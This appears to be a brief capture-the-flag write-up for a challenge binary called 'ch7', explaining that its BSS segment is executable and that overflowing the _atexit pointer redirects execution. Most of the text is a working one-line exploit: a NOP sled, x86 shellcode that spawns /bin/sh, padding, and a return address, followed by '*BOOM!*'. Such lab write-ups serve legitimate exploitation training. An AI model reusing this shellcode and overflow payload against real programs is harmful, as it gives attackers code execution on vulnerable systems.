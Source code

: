 Simple BSS. Same principle as the other ones. BSS is not protected from being executable. We just have to overflow _atexit pointer to point to the beginning of or shellcode.
Let's use a NOP sled just in case.

./ch7 $(python -c 'print("\x90" * 200 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "\x90" * 291 + "\x40\xa0\x04\x08" )')

*BOOM!*